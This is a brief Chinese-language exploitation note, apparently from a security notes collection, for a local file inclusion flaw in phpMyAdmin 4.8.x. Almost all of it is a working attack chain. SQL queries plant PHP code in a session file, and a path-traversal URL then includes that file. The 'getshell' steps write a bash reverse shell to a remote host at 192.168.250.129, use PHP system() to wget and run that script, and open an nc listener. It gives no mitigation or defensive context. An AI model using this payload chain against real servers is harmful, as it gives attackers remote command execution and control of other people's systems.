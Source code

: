 phpadmin漏洞
================================

4.8.x 本地文件包含漏洞利用
--------------------------------

利用方法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用前提
	+ 任意登录phpadmin账号
- 测试phpinfo
	+ 点击顶部导航栏中的SQL按钮，执行SQL查询``select '<?php phpinfo();exit;?>'``
	+ 获取session，Cookie 中的phpMyAdmin值
	+ 构造/var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k
	+ payload:``http://myweb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k``
- getshell
	+ vps上执行：``cd /var/www/html | echo 'bash -i >& /dev/tcp/192.168.250.129/1100 0>&1' > shell.sh``
	+ phpadmin执行：``select '<?php system("wget 192.168.250.129/shell.sh; chmod +x shell.sh; bash shell.sh");exit;?>'``
	+ vps执行：``nc -lvp 1100``
	+ 浏览器执行：``http://myweb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k``